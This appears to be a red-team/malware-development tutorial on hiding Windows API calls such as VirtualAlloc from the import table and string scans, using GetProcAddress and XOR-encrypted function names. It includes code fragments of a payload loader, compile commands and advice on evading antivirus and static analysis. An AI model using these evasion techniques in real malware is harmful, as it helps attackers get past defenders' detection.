

# 05 - evasion: function call obfuscation

In this example we will study function call obfuscation. So what is this? Why malware developers and red teamers need to learn it?    

Let's consider our `hack.exe` simple malware. Compile it:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -w
```

    

And the run this command (checking IAT):    

```bash
objdump -x -D hack.exe | less
```

    

and as you can see our program is uses `KERNEL32.dll` and import all this functions:   

```bash
CreateThread
...
...
VirtualAlloc
VirtualProtect
...
```

and some of them are used in our code:     

```cpp
my_payload_mem = VirtualAlloc(0, my_payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```

So let’s create a global variable called `VirtualAlloc`, but it has to be a pointer `pVirtualAlloc` this variable will store the address to `VirtualAlloc`:     

```cpp
LPVOID (WINAPI * pVirtualAlloc)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);
```

And now we need to get this address via `GetProcAddress`, and we need to change the call `VirtualAlloc` to `pVirtualAlloc`:     

```cpp
HMODULE kernel = GetModuleHandle("kernel32.dll");
pVirtualAlloc = (LPVOID(WINAPI *)(LPVOID, SIZE_T, DWORD, DWORD))GetProcAddress(kernel, (LPCSTR)"VirtualAlloc");
payload_mem = pVirtualAlloc(0, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```

Then let's go to compile it. And see again import address table:   

```bash
objdump -x -D hack2.exe | less
```

    

So no `VirtualAlloc` in import address table. Looks good. But, there is a caveat. When we try to extract all the strings from the our binary we will see that `VirtualAlloc` string is still there. Let's do it. run:    

```bash
stings -n 8 hack2.exe
```

    

as you can see it is here. The reason is that we are using the stream in cleartext when we are calling `GetProcAddress`.     

So what we can do about it?     
The way is we can remove that. We can used XOR function for encrypt/decrypt, we used before, so let's do that. Firstly, add XOR function to our `hack2.c` malware source code:    

```cpp
char secretKey[] = "secret";

// encryption / decryption XOR function
void deXOR(char *buffer, size_t bufferLength, char *key, size_t keyLength) {
  int keyIndex = 0;
  for (int i = 0; i < bufferLength; i++) {
    if (keyIndex == keyLength - 1) keyIndex = 0;
    buffer[i] = buffer[i] ^ key[keyIndex];
    keyIndex++;
  }
}
```

For that we will need encryption key and some string. And let's say string as `cVirtualAlloc` and modify our code:    

```cpp
unsigned char cVirtualAlloc[] = { 0x25, 0xc, 0x11, 0x6, 0x10, 0x15, 0x1f, 0x24, 0xf, 0x1e, 0xa, 0x17 };
//...
pVirtualAlloc = (LPVOID(WINAPI *)(LPVOID, SIZE_T, DWORD, DWORD))GetProcAddress(kernel, (LPCSTR)cVirtualAlloc);
```

python script to XOR encrypt our function name:     

```bash
python3 xor.py
```

     

Finally, compile it:    

```bash
x86_64-w64-mingw32-g++ -O2 hack2.c -o hack2.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -w
```

     

And run `strings` again:    

```bash
strings -n 8 hack2.exe
```

    

and as you can see no `VirtualAlloc` in strings check. This is how you can actually obfuscate any function in your code. It can be `VirtualProtect` or `RtlMoveMemory`, etc.    

Checking correctness:    

```powershell
.\hack2.exe
```

    

As we can see everything is worked as expected.    

Other functions can be obfuscated to reduce the number of AV engines that detect our malware and for full bypass static analysis. For better result we can combine payload encryption with random key and obfuscate functions with another keys etc.     

